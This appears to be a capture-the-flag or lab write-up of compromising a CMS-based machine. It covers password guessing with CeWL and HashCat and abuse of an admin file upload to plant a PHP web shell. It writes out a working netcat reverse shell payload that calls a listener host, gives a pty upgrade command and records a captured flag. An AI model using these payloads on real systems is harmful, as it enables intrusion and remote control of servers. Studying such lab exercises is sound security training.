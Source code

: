 ```shell-session
  <friendly_urls type="integer">0</friendly_urls>
  <default_homepage type="integer">0</default_homepage>
</config>
```

Although we can't bruteforce straight on the website, we can use HashCat to retrace the hash to the password, which is offline. But we dont have the hash. Therefore, we can use tool like CeWL to look for keywords aka forming a wordlist based on website content by using crawlers and guess password from there.

After gaining admin access, we find that the admin page has file upload capabilities like an image. However, it seems like we can upload whatever file to the remote machine.

![[Screenshot 2024-12-13 at 19.40.00.png]]

We, however, get a bunch of errors
![[Screenshot 2024-12-13 at 19.41.13.png]]
But if we curl into the file (to which we know on a directory we discovered), the shell works. So now, we can use PayloadAllThethings to create a reverse shell
```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.69 4242 >/tmp/f"); ?>
```
the reason we use this is because we listen on a netcat machine

![[Screenshot 2024-12-13 at 19.50.33.png]]
But before we access the url that will run the reverse shell, we have to start our netcat. After which we can connect

We can then use a python command to gain access to TTY as said above it is not accessed
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

![[Screenshot 2024-12-13 at 19.52.29.png]]
But python/python2 is not found, what about python3
![[Screenshot 2024-12-13 at 19.53.07.png]]
Indeed, there is. So we can use python3 instead

```
python3 -c 'import pty; pty.spawn("/bin/bash")'

```

![[Screenshot 2024-12-13 at 19.54.23.png]]
which we got the flag!
79c03865431abf47b90ef24b9695e148

![[Screenshot 2024-12-13 at 20.00.17.png]]
After unzipping the archive and find out that it contains a bash. We should download it. However, it is important to cat its content to make sure it is not a reverse shell itself. After reading the content, it seems like this file gives general information on the machine which would be interesting.
